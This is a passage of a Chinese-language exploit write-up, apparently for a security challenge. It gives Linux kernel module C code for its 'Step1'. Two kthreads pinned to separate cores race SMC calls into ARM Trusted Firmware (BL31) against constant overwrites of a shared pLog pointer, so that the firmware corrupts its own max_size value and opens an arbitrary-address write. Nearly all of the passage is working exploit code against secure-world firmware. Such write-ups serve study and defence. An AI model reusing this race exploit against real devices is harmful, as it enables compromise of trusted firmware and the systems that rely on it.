 

## Step1: 竞争写pLog，实现任意地址写

参考：[Kernel threads made easy](https://lwn.net/Articles/65178/)

开启两个kthread并绑定到不同的核上运行：

```c
#include "linux-6.6/include/linux/arm-smccc.h" //arm_smccc_smc
#include "linux-6.6/include/linux/kthread.h" // kthread

#define BL31_NS_MEM       0x423dc0007
#define BL31_NS_MEM_SIZE  0x1000
#define MAX_SIZE_ADDR     0xE0D70B0

static uint64_t *ns_mem = NULL;

static int func1_thread(void *data) {
    struct arm_smccc_res res;
    struct task_struct *task2 = (struct task_struct *)data;

    pr_info("func1 is running on CPU %d\n", smp_processor_id());
    while (!kthread_should_stop()) {
        for (size_t i = 0; i < 0x20; i++)
            arm_smccc_smc(STORAGE_SVC_WR, 0, BL31_NS_MEM+0x80, 0x80, 0, 0, 0, 0, &res); // 使size大于0x40，不断触发log_err执行
        if (res.a0 == 0) { // 调用执行成功返回0时表示竞争成功，max_size已被篡改
            pr_info("Condition successed!\n");
            kthread_stop(task2);
            break;
        }
    }
    return 0;
}

static int func2_thread(void *data) {
    pr_info("func2 is running on CPU %d\n", smp_processor_id());
    while (!kthread_should_stop()) {
        ns_mem[0] = MAX_SIZE_ADDR; // 不断修改pLog->ptr指向max_size
    }
    return 0;
}

static int step1_open(struct inode *inode, struct file *file) {
    pr_info("Step1: Device opened\n");

    struct arm_smccc_res res;
    struct task_struct *task1, *task2;

    ns_mem = phys_to_virt(BL31_NS_MEM);

    arm_smccc_smc(LOG_SVC_PLOG_SET, BL31_NS_MEM, 0, 0, 0, 0, 0, 0, &res);
    pr_info("SMC Driver: LOG_SVC_PLOG_SET, res.0 = 0x%lx\n", res.a0);

    task2 = kthread_create(func2_thread, NULL, "func2_thread");
    kthread_bind(task2, 2);
    wake_up_process(task2);

    task1 = kthread_create(func1_thread, (void *)task2, "func1_thread");
    kthread_bind(task1, 1);
    wake_up_process(task1);

    return 0;
}
```